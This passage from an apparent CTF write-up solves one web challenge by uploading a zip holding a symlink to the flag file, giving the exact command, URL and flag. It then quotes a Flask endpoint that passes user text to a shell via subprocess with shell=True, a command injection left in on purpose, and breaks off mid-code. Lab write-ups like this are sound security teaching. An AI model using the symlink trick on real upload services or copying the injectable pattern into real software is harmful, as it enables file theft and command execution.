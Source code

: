 We can upload the zip with the symlink at the root endpoint and read the file that was unzipped at `/files/<path:path>`

So we'll just create a symlink to `/tmp/flag.txt` and zip it up

`ln -s /tmp/flag.txt flag_link && zip --symlinks symlink.zip flag_link`

After that just upload the symlink.zip to the site and read the flag.

`https://zipzone-web.challs.csc.tf/files/ca942ca7-94be-4ab6-a58d-5bec8a6a97bb/flag_link`

**Flag:** `CSCTF{5yml1nk5_4r3_w31rd}`

## Feature Unlocked
**Solvers:** 184 <br>
**Author:** cryptocat

When reading the source we can see that we need to exploit a command injection at the endpoint `/feature`

```python
@app.route('/feature', methods=['GET', 'POST'])
def feature():
  token = request.cookies.get('access_token')
  if not token:
    return redirect(url_for('index'))

  try:
    data = serializer.loads(token)
    if data != 'access_granted':
      return redirect(url_for('index'))

    if request.method == 'POST':
      to_process = request.form.get('text')
      try:
        word_count = f"echo {to_process} | wc -w"
        output = subprocess.check_output(
          word_count, shell=True, text=True)
      except subprocess.CalledProcessError as e:
        output = f"Error: {e}"
      return render_template('feature.html', output=output)

    return render_template('feature.html')
  except Exception as e:
    print(f"Error: {e}")
    return redirect(url_for('index'))
```
{: file="src/app/main.py" }

But in order to do so we need to have a `access_granted` token.

Looking around we can see that we can get that token at the endpoint `/feature`

```python
@app.route('/release')
def release():
  token = request.cookies.get('access_token')
  if token:
    try:
      data = serializer.loads(token)
      if data == 'access_granted':
        return redirect(url_for('feature'))
    except Exception as e:
      print(f"Token validation error: {e}")

  validation_server = DEFAULT_VALIDATION_SERVER
  if request.args.get('debug') == 'true':
    preferences, _ = get_preferences()
```